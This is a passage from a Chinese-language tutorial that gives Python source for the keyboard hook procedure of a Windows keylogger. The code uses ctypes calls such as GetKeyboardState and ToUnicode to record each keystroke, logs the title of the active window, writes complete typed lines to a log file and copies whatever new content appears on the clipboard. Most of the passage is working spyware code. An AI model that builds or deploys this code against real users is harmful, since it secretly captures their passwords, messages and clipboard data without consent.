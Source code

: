 ### 键盘事件发生调用的钩子程序

声明全局变量，这样每次点击按键时被清空。

```python
def hook_procedure(nCode, wParam, lParam):

    global last_key
    global current_clipboard
    global line
    global current_window
```

与part1同，我们需要知道用户键入时当前窗口，以便我们如果使用检索到的数据。每当按下特定键里，我们可以使用函数来卸载钩子(此处为`CONTROL`)

```python
if current_window != get_current_window():    #判断current_window内容不是当前打开的窗口
    current_window = get_current_window()    #将窗口标题放在current_window中
    logging.info('[WINDOW] ' + current_window)    #将当前窗口标题写入日志文件


#如果你在测试时想卸载钩子，请删除下面注释
"""
if user32.GetKeyState(VIRTUAL_KEYS['CONTROL']) & 0x8000:
    hook.uninstall_hook()
    return 0
"""
```

```python
if nCode == HC_ACTION and wParam == WM_KEYDOWN:
    kb = KBDLLHOOKSTRUCT.from_address(lParam)
    user32.GetKeyState(VIRTUAL_KEYS['SHIFT'])
    user32.GetKeyState(VIRTUAL_KEYS['MENU'])
    state = (c_char * 256)()
    user32.GetKeyboardState(byref(state))
    buff = create_unicode_buffer(8)
    n = user32.ToUnicode(kb.vkCode, kb.scanCode, state, buff, 8 - 1, 0)    #ToUnicode返回值：-1/一个死键,0/不进行任何转换,1/一个字符,>=2/两个或多个字符
    key = wstring_at(buff)
```

这里的逻辑是，当按下一个键时，我们调用之前创建的类`from_address`来获取有关键盘事件的信息，并将其`kb`作为数据结构存储在变量中`KBDLLHOOKSTRUCT`。创建一个`state`大小为256的变量来保存所有256个虚拟键的状态。这里调用`GetKeyboardState()`函数来完成。然后我们声明一个`Buff`变量以创建Unicode字符缓冲区(具有wchar数据类型的值的数组)。我们使用`ToUnicode`函数将虚拟按键代码或键盘状态转换为Unicode字符，然后使用`wstring_at()`将字符存储为1个字符的Unicode字符串。

`ToUnicode`返回值存储在n中。每当按下一个键里钩子过程会存储一个返回值，我们可以使用它来确定是否记录字符。只要n大于0，我们就记录按下的键。
```python
    if n > 0:
        if kb.vkCode not in VIRTUAL_KEYS.values():    #如果键入非特殊键，则加入line变量
            line += key

        for key, value in VIRTUAL_KEYS.items():    #如果键入特殊键，则记录特殊键名
            if kb.vkCode == value:
                logging.info(key)

        if kb.vkCode == VIRTUAL_KEYS['RETURN']:    #如果键入RETURN，则记录并清除line变量
            logging.info(line)
            line = ""

        if current_clipboard != get_clipboard():    #如果剪贴板中有新数据，则记录该数据
            current_clipboard = get_clipboard()
            logging.info('[CLIPBOARD] ' + current_clipboard + '\n')

return user32.CallNextHookEx(hook.is_hooked, nCode, wParam, lParam)    #将钩子信息传递给下个钩子过程CallNextHookEx
```
